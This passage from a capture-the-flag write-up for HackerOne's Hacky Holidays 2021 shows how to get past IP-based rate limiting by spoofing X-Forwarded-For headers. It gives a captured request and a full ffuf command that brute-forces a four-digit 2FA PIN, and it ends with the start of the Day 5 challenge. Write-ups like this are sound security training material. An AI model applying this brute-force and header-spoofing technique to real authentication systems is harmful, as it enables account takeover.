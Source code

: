 2) A common way to bypass such restrictions is to make the server believe your requests come from a different IP. This is possible if there the server does not append or rewrite a header (such as `X-Forwarded-For` with your original IP.

Therefore by setting a header such as `X-Forwarded-For` and by rotating values we can make the server believe that our requests come from different hosts. Once the first problem is bypasses, it is a matter of speed and how fast we can go to be able to grab the 2FA code before it expires.

3) First we need to grab a challenge hash from the request below

```http
POST /harvest-admin/data/ HTTP/1.1
Host: elfmail.hackyholidays.h1ctf.com
Cookie: token=eyJkYXRhIjoiZXlKMWMyVnlibUZ0WlNJNkluTjFjRE55TFdkeWFXNWphQ0o5IiwiYXV0aCI6dHJ1ZX0=
Content-Length: 8
Content-Type: application/x-www-form-urlencoded
Connection: close

delete=1
```
Search in the response for `name="challenge"` and use that value in the ffuf command below

4) We can now use ffuf to bruteforce the PIN for the previously generated challenge
```bash
Generate all possible PINs
>  for i in {0000..9999}; do echo $i >> ~/Documents/HackerOne/hackyholidays\ 2021/pins.txt;done
Bruteforce the 2FA (change the hash code with a fresh one
> ffuf -u https://elfmail.hackyholidays.h1ctf.com/harvest-admin/data/ -X POST -H "Cookie: token=eyJkYXRhIjoiZXlKMWMyVnlibUZ0WlNJNkluTjFjRE55TFdkeWFXNWphQ0o5IiwiYXV0aCI6dHJ1ZX0=" -H "Content-Type: application/x-www-form-urlencoded" -H "X-Forwarded-For: 10.10.10.FUZZ" -d "delete=1&challenge=e6d3dc973c17b291248cb9e8185127f0&pin=FUZZ" -w ~/Documents/HackerOne/hackyholidays\ 2021/pins.txt -t 300 -x http://127.0.0.1:8080 --fs 2451
```
After some seconds ffuf will return the valid PIN

![ffuf](https://user-images.githubusercontent.com/55701068/151596547-7c20bab4-fd3e-4e4e-9ec3-4820a161ee8e.png)

And we can grab the flag

![flag-4](https://user-images.githubusercontent.com/55701068/151596633-75c7b803-e252-46b6-8c76-808fecc9b891.png)

**DAY 5 - Christmas Cookie Crumbles make a Flag**
--------------------
1) New day and a totally new target is in scope. We visit the [intranet domain](https://intranet.hackyholidays.h1ctf.com/) where the [Staff Info] (https://intranet.hackyholidays.h1ctf.com/staff_info/) challenge is enabled.
2) Visiting the new challenge page, we see Grinch's dog and some information about it. Like name,salary, date of birth etc. Checking burp, we notice that a handful of request has been send, each on of them pulling a different value. 
So we have the following 5 pieces of information retrieved
- Name
- Address
- Position
- Image
- Salary
- Dod (date of birth)
